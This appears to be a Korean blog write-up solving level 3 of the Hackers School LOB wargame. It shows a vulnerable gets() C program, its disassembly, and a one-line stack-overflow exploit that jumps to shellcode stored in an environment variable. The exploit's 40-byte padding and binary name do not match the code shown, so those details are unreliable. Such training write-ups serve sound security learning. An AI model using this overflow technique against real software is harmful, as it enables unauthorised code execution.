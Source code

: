 ```yaml
---
date: '2022-10-13'
before : '2022-10-12'
after : '2022-10-14'
title: 'FTZ LOB LEVEL 3'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


이번 문제도 굉장히 쉽다. 그냥 똑같다고 보면 될 것 같다. FTZ 복습 개념인건가...?


### 1. Level 3 : Cobolt -> Goblin


코드가 매우 짧다. 
```
int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```
어셈블리도 마찬가지로 딱히 특이점은 없다.
```
0x80483f8 <main>:       push   %ebp
0x80483f9 <main+1>:     mov    %ebp,%esp
0x80483fb <main+3>:     sub    %esp,16
0x80483fe <main+6>:     lea    %eax,[%ebp-16]
0x8048401 <main+9>:     push   %eax
0x8048402 <main+10>:    call   0x804830c <gets>
0x8048407 <main+15>:    add    %esp,4
0x804840a <main+18>:    lea    %eax,[%ebp-16]
0x804840d <main+21>:    push   %eax
0x804840e <main+22>:    push   0x8048470
0x8048413 <main+27>:    call   0x804833c <printf>
0x8048418 <main+32>:    add    %esp,8
0x804841b <main+35>:    leave
0x804841c <main+36>:    ret
0x804841d <main+37>:    nop
0x804841e <main+38>:    nop
0x804841f <main+39>:    nop
```

평소 하던것처럼 쉽게쉽게 EGG 등록하고 주소를 확인한 후 쉘코드를 짜자.


아, gets()함수이니 ("변수"; cat) | ./goblin 형식으로 쓰는것도 잊지 말자.

```
0xbffffeca
```

익스플로잇 :
```
(python -c 'print "A"*40+"\xca\xfe\xff\xbf"'; cat) | ./attackme
```
hackers proof

---
## Source

- 해커스쿨 FTZ
- Me!
